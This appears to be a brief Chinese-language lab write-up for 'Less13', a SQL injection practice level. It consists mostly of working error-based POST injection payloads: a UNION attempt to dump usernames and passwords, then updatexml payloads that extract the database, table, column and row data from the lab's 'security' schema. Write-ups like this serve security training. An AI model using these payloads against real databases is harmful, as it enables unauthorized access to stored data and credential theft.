

# Less13

　　这关关于')闭合报错post注入

　　判断是否存在注入：?id=1' and 1=1 --+

　　报错说明存在注入

　　使用之前方法：')union select 1,group_concat(username ,id , password) from users --+

　　只显示登陆成功，并没有想要的数据

　　这里应该使用报错注入：

　　判断库名：') union select updatexml(1,concat(0x7e,(select database()),0x7e),1) #

　　判断表名：') union select updatexml(1,concat(0x7e,(select table\_name from information\_schema.tables where table\_schema\='security'limit 0,1),0x7e),1)--+

　　判断列名：') union select updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1)--+

　　判断数据：') union select updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)--+

